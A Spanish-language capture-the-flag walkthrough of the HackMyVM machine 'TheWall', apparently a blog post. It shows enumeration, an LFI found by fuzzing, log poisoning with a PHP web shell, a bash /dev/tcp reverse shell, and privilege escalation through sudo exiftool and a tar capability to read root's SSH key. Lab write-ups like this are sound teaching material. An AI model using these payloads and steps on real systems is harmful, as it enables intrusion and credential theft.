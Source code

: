 ```yaml
---
layout: post
title: TheWall
date: 2022-11-26
categories: ["HMV", "Enumeration", "Log Poisoning"]
thumbnail: "assets/images/TheWall.png"
---
```


# TheWall [ Hack My VM ]

### Reconocimiento

**Descubrimiento de puertos y reconocimiento básico**
- `nmap -sS --min-rate 5000 192.168.1.114 -oG allPorts`
- `nmap -sCV -p22,80 192.168.1.114 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Shell

Si miramos la página veremos que sólo pone un `Hello World!` en grande, por lo que poco podemos hacer, pero bueno, podemos seguir investigamos. Si vamos la ruta `/index.php` veremos el mismo mensaje, por lo que ya sabemos que está utilizando `PHP`.

Con esto aprendido podemos hacer `fuzzing` por archivos `PHP`, aunque si nos fijamos veremos que la página tiene un `WAF` (`Web Application Firewall`), por lo que si vamos muy rápido nos dará el mismo mensaje siempre (`Forbidden`). Para el siguiente paso utilizaré `GoBuster`, una herramienta creada en `GoLang` para hacer `fuzzing`.

```
gobuster dir -u "http://192.168.1.114" -w directory-list-2.3-medium.txt -x php - -delay 1s -t 1 --b 403,404
```

```
/index.php (Status: 200 ) [Size: 25 ]
/includes.php (Status: 200 ) [Size: 2 ]
```

Tras esperar un buen rato vemos dos archivos, el respectivo `index.php` e `includes.php`, si abrimos dicho archivo veremos una página en blanco, podemos intuir (por el nombre) que dispondrá de algún parámetro que apuntará a un archivo local, por lo que podemos tratar de `fuzzear` ese parámetro. Para ello utilizaré `WFuzz`:

```
wfuzz -u "http://192.168.1.114/includes.php?FUZZ=/etc/passwd" -w directory-list-2.3-medium.txt --hc=404 --hh=2 -t 200
```

```
000217299: 200 28 L 41 W 1460 Ch "display_page"
```

Tras otro rato esperando vemos el parámetro `display_page`, así que si nos vamos a la web podemos ver el archivo que queramos de la máquina. Acabamos de encontrar un `LFI`!

Con esto encontrado podemos hacer `Log Poisoning`, para eso me dirigiré a `/var/log/apache2/access.log`, vemos que existe, por lo que podemos  continuar. Con `NC` me conectaré al puerto `80` y mandaré una petición `GET` con un pequeño `script` en `PHP`.

- `nc 192.168.1.114 80`

```
GET <?php system($_GET['cmd']); ?>
```

Este pequeño `script` en `PHP` cogerá el `input` del parámetro `cmd`, lo ejecutará y lo mostrará en pantalla. Por lo que ya podemos ejecutar comandos en la máquina.

Para conseguir una Shell me copié de [`IronHackers`](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/) una Reverse Shell en `Bash` y la puse (intercambiando los `&` por `%26` para no obtener problemas) en el parámetro `cmd`. Antes de todo esto me puse en escucha con `NC` por el puerto `4444`.

- `nc -nlvp 4444`

Ahora sí, estamos preparados para lanzar la Reverse Shell:

```
http://192.168.1.114/includes.php?display_page=/var/log/apache2/access.log&cmd=bash -c 'bash -i >%26 /dev/tcp/192.168.1.114/4444 0>%261'
```
Bien! Hemos recibido una Shell como `www-data`!

### Subida de privilegios #1

Ahora que ya estamos en la máquina víctima tenemos que tratar de ser `root`, pero antes de eso nos tenemos que convertir en `John`. Comencé por hacer `sudo -l` para listar todo lo que podía hacer en la máquina.

```
Matching Defaults entries for www-data on TheWall:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on TheWall:
    (john : john) NOPASSWD: /usr/bin/exiftool
```
Vemos que puedo ejecutar como `John` una herramienta llamada `ExifTool`. Si nos vamos a [`GTFOBins`](https://gtfobins.github.io/gtfobins/exiftool/#sudo) vemos que podemos escribir un archivo con dicha herramienta, por lo que decidí generarme un par de llaves `SSH` en mi máquina de atacante con `ssh-keygen` y copiar la clave pública (`id_rsa.pub`) en el directorio `/tmp/` de la máquina víctima.

Con esto hecho seguí las instrucciones de [`GTFObins`](https://gtfobins.github.io/gtfobins/exiftool/#sudo), quedándome así la instrucción:

```
sudo -u john /usr/bin/exiftool -filename=/home/john/.ssh/authorized_keys /tmp/id_rsa.pub
```

Esto ha hecho que copiemos nuestra `id_rsa` pública en un archivo llamado `authorized_keys`, el
cual al estar ahí nuestra llave podemos conectarnos como `John` sin proporcionar contraseña.

### Subida de privilegios #2

Una vez que estemos como `John` en la máquina ya podemos seguir nuestra misión, conseguir ser `root`, para ello (y tras varios minutos buscando) con el comando `id` listé los grupos a los que pertenecía, pertenecía al grupo `1000` , por lo que me puse a buscar ficheros que pertenezcan a dicho grupo.

- `find / -group 1000 2>/dev/null`

```
[ ... ]
/usr/sbin/tar
[ ... ]
```

Vemos un fichero llamado `tar`, vamos a ver qué capacidades tiene con `/sbin/getcap -r 2>/dev/null`:

```
[ ... ]
/usr/sbin/tar cap_dac_read_search=ep
[ ... ]
```

Como vemos tiene la capacidad de leer archivos. Me encontré un artículo de [`TBHaxor`](https://tbhaxor.com/exploiting-linux-capabilities-part-2/) que explica muy bien cómo poder explotar dicha capacidad, por lo seguí sus pasos, aunque cambiándolo un poco.

Si nos vamos a la raíz del sistema vemos dos archivos, un `id_rsa.pub` el cual
pertenece a `root` y otro archivo, `id_rsa` (el privado) que no podemos leer, por lo que podemos intuir que es de `root`. Vámonos al directorio `/tmp/`.

Bien, es la hora de explotar la capacidad de `TAR`, para ello hacemos lo siguiente:

- `/sbin/tar -czf root.id_rsa /id_rsa`

Como vemos se nos creó un archivo llamado `root.id_rsa` (o como le hayáis puesto) que si lo leemos tendrá la clave privada de `root`.

Enhorabuena! Hemos obtenido `root` en la máquina víctima de forma sencilla!
